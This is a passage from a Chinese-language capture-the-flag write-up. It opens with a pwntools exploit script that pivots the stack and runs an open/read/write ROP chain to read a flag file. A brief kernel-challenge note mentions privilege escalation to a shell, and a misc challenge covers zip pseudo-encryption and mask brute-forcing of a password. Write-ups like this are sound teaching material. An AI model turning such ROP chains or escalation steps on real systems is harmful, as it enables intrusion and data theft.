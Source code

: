 ```python
payload = p64(pop_rsi) + p64(bss) + p64(read_addr) + p64(pop_rbp) + p64(bss-0x8) + p64(leave_ret)
payload = payload.ljust(0x30, b'a')
payload += p64(stack - 0x30) + p64(leave_ret)
debug()
p.sendlineafter(b'password:\n', payload)
pause()
payload = flat([
    pop_rsi, bss + 0x100,
    pop_rdx_r12, 0x100, 0,
    read_addr,
    pop_rsp, bss + 0x100,
    './flag.txt\x00\x00'
])
p.sendline(payload)
pause()
payload = flat([
    # open(bss + 0x100, 0, 0),
    pop_rdi, bss + 0x40,
    pop_rsi, 0,
    open_addr,

    # read(3, bss + 0x100, 0x100),
    pop_rdi, 3,
    pop_rsi, bss + 0x200,
    pop_rdx_r12, 0x100, 0,
    read_addr,

    # write(1, bss + 0x200, 0x100),
    pop_rdi, 1,
    pop_rsi, bss + 0x200,
    pop_rdx_r12, 0x100, 1,
    write_addr,

])
p.sendline(payload)
p.interactive()
```
![[Pasted image 20250517144452.png]]
## easybee-总决赛
和Aliyunctf2025-beebee很像的一道内核题目，改一下官方的wp就能打通，提权后再用vfork返回一个shell就行


# MISC
## 返校之路-区域
拿到两个zip都要密码，先看到part1.zip的二进制数据，可以看出是伪加密
![[Pasted image 20250512095701.png]]
修改后可以解压出part1.zip
```readme.txt
一转眼，寒假已经过去，同学们都怀着怎样的心情踏上返校之路呢？

你是一名学生，从刚下高铁，准备乘坐19站地铁返回学校。短短的假期总是让人留恋，而返校的路似乎格外漫长。

在途中，你发现了一个神秘的压缩包，以及一张写着bfs???的纸条，这似乎隐藏着一些重要的信息。。。



```
掩码爆破密码
![[Pasted image 20250512142119.png]]